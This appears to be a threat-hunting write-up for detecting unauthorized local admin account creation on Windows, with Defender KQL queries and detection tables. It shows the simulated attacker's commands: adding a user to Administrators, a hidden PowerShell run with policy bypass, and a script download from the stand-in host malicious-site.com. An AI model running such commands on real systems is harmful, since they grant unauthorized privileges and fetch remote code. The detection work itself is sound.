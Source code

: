 # ⚠️ Threat Event: Unauthorized Local Admin Account Creation

**Suspicious Local Admin Account Created Using `net.exe` and PowerShell**

---

## 🧪 Steps the "Bad Actor" Took to Create Logs and IoCs

1. **Used `net.exe` or `net1.exe` to add a new user to the local Administrators group:**
   ```bash
   net localgroup administrators attackerUser /add
   ```

2. **Launched PowerShell with execution policy bypass:**
   ```bash
   powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command "..."
   ```

3. **Downloaded a remote script (possibly for persistence):**
   ```bash
   powershell -Command "Invoke-WebRequest -Uri http://malicious-site.com/script.ps1 -OutFile C:\temp\script.ps1"
   ```

4. **Executed the downloaded script using bypassed policies.**

---

## 📊 Tables Used to Detect IoCs

| Parameter | Description |
|----------|-------------|
| **Name** | `DeviceProcessEvents` |
| **Info** | [Microsoft Docs: DeviceProcessEvents](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table) |
| **Purpose** | Used to detect the use of `net.exe` or PowerShell with execution policy bypass |

| Parameter | Description |
|----------|-------------|
| **Name** | `DeviceNetworkEvents` |
| **Info** | [Microsoft Docs: DeviceNetworkEvents](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table) |
| **Purpose** | Used to detect PowerShell-initiated downloads from external sources (`.ps1` scripts) |

---

## 🧠 Related Queries (KQL)

### 🔍 Detect Unauthorized Admin Account Creation
```kql
DeviceProcessEvents
| where FileName in~ ("net.exe", "net1.exe")
| where ProcessCommandLine has_all ("localgroup", "administrators", "add")
```

### 🔍 Detect PowerShell Execution Policy Bypass
```kql
DeviceProcessEvents
| where FileName =~ "powershell.exe"
| where ProcessCommandLine has "-ExecutionPolicy Bypass"
```

### 🔍 Detect PowerShell Downloading External Scripts
```kql
DeviceNetworkEvents
| where RemoteUrl endswith ".ps1"
| where InitiatingProcessFileName =~ "powershell.exe"
```

---

## 👤 Created By

- **Author Name:** Kojo Karl-Agbee  
- **Date:** April 13, 2025  

---

## 📝 Additional Notes

- Consider expanding this into a detection lab for junior analysts  
- Use simulated attack tools like [Nishang](https://github.com/samratashok/nishang) for more PowerShell-based attack scenarios  

---

## 🗂️ Revision History

| Version | Changes       | Date           | Modified By |
|---------|---------------|----------------|-------------|
| 1.0     | Initial draft | April 13, 2025 | Kojo        |
